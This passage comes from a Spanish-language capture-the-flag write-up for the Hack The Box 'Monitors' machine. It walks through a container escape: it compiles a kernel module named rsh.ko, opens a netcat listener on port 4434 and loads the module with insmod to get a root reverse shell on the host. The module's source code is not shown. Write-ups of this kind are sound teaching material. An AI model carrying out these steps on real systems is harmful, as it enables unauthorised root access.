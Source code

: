 ```bash
obj-m +=rsh.o

all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

> El nombre del objeto es `rsh.o`, es importante para el último paso.

<span style="color: red;">3. </span>Compilamos el archivo **Makefile** con el comando `make`:

```bash
root@9092a1174332:/tmp/test$ ls -la
total 20
drwxr-xr-x 2 root root 4096 Jul  9 11:11 .
drwxrwxrwt 1 root root 4096 Jul  9 11:11 ..
-rw-r--r-- 1 root root  157 Jul  9 11:11 Makefile
-rw-r--r-- 1 root root  718 Jul  9 11:11 rsh.c
```

```bash
root@9092a1174332:/tmp/test$ make
make -C /lib/modules/4.15.0-142-generic/build M=/tmp/test modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
  CC [M]  /tmp/test/rsh.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /tmp/test/rsh.mod.o
  LD [M]  /tmp/test/rsh.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
```

Listones, ya estaría creado en el directorio `/lib/modules...`.

<span style="color: red;">4. </span>Nos ponemos en escucha por el puerto **4434**:

```bash
❱ nc -lvp 4434
```

<span style="color: red;">5. </span>Ejecutamos el módulo:

```bash
root@9092a1174332:/tmp/test$ insmod rsh.ko
```

Yyyyy...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341bash_dockerSH_execModule_RevSH_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width:100%;"/>

Perfectísimoooooooooooooooooo, estamos dentro del host como el usuario **root** (: veamos las flags...

![341flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341flags.png)

YYYYY fin.

...

Linda máquina, me encanto que fue full vulnerabilidades reales, muchos **CVE** (bueno lo de la contraseña de **marcus** fue un poco keloke) 

**Muy divertida, linda linda.**

Hemos terminado por hoy, nos leeremos después y lo que no puede faltar. A SEGUIR ROMPIENDO TODOOOOOOOOOOO!!